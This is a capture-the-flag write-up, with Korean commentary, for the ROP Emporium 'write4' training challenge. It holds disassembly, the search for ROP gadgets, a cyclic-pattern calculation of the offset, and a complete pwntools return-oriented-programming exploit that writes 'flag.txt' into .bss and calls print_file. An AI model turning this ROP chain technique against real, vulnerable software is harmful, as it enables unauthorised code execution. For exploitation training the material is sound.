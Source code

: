 # [write4](https://ropemporium.com/challenge/write4.html)
<br />

**Discription:**
> Our first foray into proper gadget use.
A useful function is still present, but we'll need to write a string into memory somehow.
<br />
<br />

# x86_64

**Binary Protections:**
```yaml
[*] '/home/kali/pico/write4'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'.'
    Stripped:   No
```
<br />
<br />

해당 문제는 가젯을 적절히 사용하여 `print_file("flag.txt")`를 호출하면 풀리는 문제입니다. 아래 과정을 통해 풀이를 진행하겠습니다.

```yaml
objdump -d write4

write4:     file format elf64-x86-64
...
Disassembly of section .text:
...
0000000000400617 <usefulFunction>:
  400617:       55                      push   %rbp
  400618:       48 89 e5                mov    %rsp,%rbp
  40061b:       bf b4 06 40 00          mov    $0x4006b4,%edi
  400620:       e8 eb fe ff ff          call   400510 <print_file@plt>
  400625:       90                      nop
  400626:       5d                      pop    %rbp
  400627:       c3                      ret

0000000000400628 <usefulGadgets>:
  400628:       4d 89 3e                mov    %r15,(%r14)
  40062b:       c3                      ret
  40062c:       0f 1f 40 00             nopl   0x0(%rax)
```
우선 `objdump -d` 명령어로 풀이에 필요한 정보를 찾을 수 있습니다. `usefulGadgets`가 핵심 가젯입니다.

> [!NOTE]
> `usefulGadgets` = `mov [r14], r15; ret`
>
> `r14`가 가리키는 메모리 주소에 `r15` 레지스터 값을 저장합니다.

<br />

```yaml
pwndbg> elf
...
0x600df8 - 0x600e00  .fini_array
0x600e00 - 0x600ff0  .dynamic
0x600ff0 - 0x601000  .got
0x601000 - 0x601028  .got.plt
0x601028 - 0x601038  .data
0x601038 - 0x601040  .bss

pwndbg> vmmap 0x601038
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size Offset File
          0x600000           0x601000 r--p     1000      0 /home/kali/pico/write4
►         0x601000           0x602000 rw-p     1000   1000 /home/kali/pico/write4 +0x38
    0x7ffff7a0a000     0x7ffff7a32000 r--p    28000      0 /usr/lib/x86_64-linux-gnu/libc.so.6
```
`print_file`의 인자로 넣으려면 쓰기 권한이 있는 영역에 `"flag.txt"`를 쓰고, `"flag.txt"`를 저장하고 있는 주소를 `rdi`에 넣어 사용해야 합니다. `elf` 명령어로 `bss(0x601038)`는 8바이트만큼 할당이 되어 있고, 쓰기 권한이 있는 것을 알 수 있습니다. 해당 영역에 `"flag.txt"`를 저장할 것입니다.

```yaml
$ ROPgadget --binary write4 | grep "rdi"
0x0000000000400693 : pop rdi ; ret

$ ROPgadget --binary write4 | grep "pop r14"
...
0x0000000000400690 : pop r14 ; pop r15 ; ret
...
```
위에서 설명한 `rdi`와 `r14`, `r15`에 대한 가젯을 찾아줍니다.

<br />

```yaml
$ python3 -q
>>> from pwn import *
>>>
>>> p = process("./write4")
[+] Starting local process './write4': pid 1891
>>> p.sendline(cyclic(400, n=8))
>>> p.wait()
[*] Process './write4' stopped with exit code -11 (SIGSEGV) (pid 1891)
>>> Corefile("./core.1891")
[+] Parsing corefile...: Done
[*] '/home/kali/pico/core.1891'
    Arch:      amd64-64-little
    RIP:       0x7f59cac00942
    RSP:       0x7ffcbc52af78
    Exe:       '/home/kali/pico/write4' (0x400000)
    Fault:     0x6161616161616166
Corefile('/home/kali/pico/core.1891')
>>> cyclic_find(0x6161616161616166, n=8)
40
```
마지막으로 위 과정을 통해 오프셋을 계산합니다. 오프셋은 40 입니다. 위에서 찾은 정보를 가지고 공격 코드를 작성할 수 있습니다.

<br />

```python
from pwn import *

context.log_level = "error"
context.arch = "amd64"

p = process("./write4")

print_file = 0x400510   # print_file_plt
pop_r14_r15 = 0x400690
mov_r14_r15 = 0x400628
pop_rdi = 0x400693
bss = 0x601038
flag = b"flag.txt"

pay = flat(
	{40:pop_r14_r15}, bss, flag,  # r14 = bss area, r15 = flag.txt
	mov_r14_r15,    # bss = 0x601038 = "flag.txt"
	pop_rdi, bss,
	print_file      # call print_file("flag.txt")
)

p.sendline(pay)
p.interactive()
```
```bash
$ python3 test.py
write4 by ROP Emporium
x86_64

Go ahead and give me the input already!

> Thank you!
ROPE{a_placeholder_32byte_flag!}
$
```
